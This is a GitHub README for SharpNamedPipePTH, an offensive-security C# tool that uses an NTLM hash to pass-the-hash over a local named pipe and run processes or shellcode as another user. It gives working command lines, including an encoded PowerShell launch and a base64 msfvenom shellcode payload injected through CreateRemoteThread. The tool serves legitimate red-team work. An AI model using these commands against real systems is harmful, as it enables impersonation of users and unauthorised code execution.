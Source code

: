 # SharpNamedPipePTH

This project is a C# tool to use Pass-the-Hash for authentication on a local Named Pipe  for user Impersonation. You need a local administrator or SEImpersonate rights to use this. There is a blog post for explanation:

[https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

It is heavily based on the code from the project [Sharp-SMBExec](https://github.com/checkymander/Sharp-SMBExec/).

I faced certain Offensive Security project situations in the past, where I already had the NTLM-Hash of a `low privileged` user account and needed a shell for that user on the current compromised system - but that was not possible with the current public tools. Imagine two more facts for a situation like that - the NTLM Hash could not be cracked *and* there is no process of the victim user to execute shellcode in it or to migrate into that process. This may sound like an absurd edge-case for some of you. I still experienced that multiple times. Not only in one engagement I spend a lot of time searching for the right tool/technique in that specific situation.

My personal goals for a tool/technique were:

* Fully featured shell or C2-connection as the victim user-account
* It must to able to also Impersonate `low privileged` accounts - depending on engagement goals it might be needed to access a system with a specific user such as the CEO, HR-accounts, SAP-administrators or others
* The tool can be used as C2-module

The impersonated user unfortunately has *no network authentication* allowed, as the new process is using an Impersonation Token which is restricted. So you can only use this technique for local actions with another user.

There are two ways to use SharpNamedPipePTH. Either you can execute a binary (with or without arguments):

`
SharpNamedPipePTH.exe username:testing hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:C:\windows\system32\cmd.exe
`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH/blob/main/Resources/Example1.JPG?raw=true)

`
SharpNamedPipePTH.exe username:testing domain:localhost  hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 binary:"C:\WINDOWS\System32\WindowsPowerShell\v1.0\powershell.exe" arguments:"-nop -w 1 -sta -enc bgBvAHQAZQBwAGEAZAAuAGUAeABlAAoA"
`

Or you can execute shellcode as the other user:

`
SharpNamedPipePTH.exe username:testing domain:localhost hash:7C53CFA5EA7D0F9B3B968AA0FB51A3F5 shellcode:/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu+AdKgpBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY21kLmV4ZQA=
`

Which is `msfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=threadmsfvenom -p windows/x64/exec CMD=cmd.exe EXITFUNC=thread | base64 -w0`.

I'm not happy with the shellcode execution yet, as it's currently spawning notepad as the impersonated user and injects shellcode into that new process via D/Invoke CreateRemoteThread Syscall. I'm still looking for possibility to spawn a process in the background or execute shellcode without having a process of the target user for memory allocation.

![alt text](https://github.com/S3cur3Th1sSh1t/SharpNamedPipePTH/blob/main/Resources/Example2.JPG?raw=true)

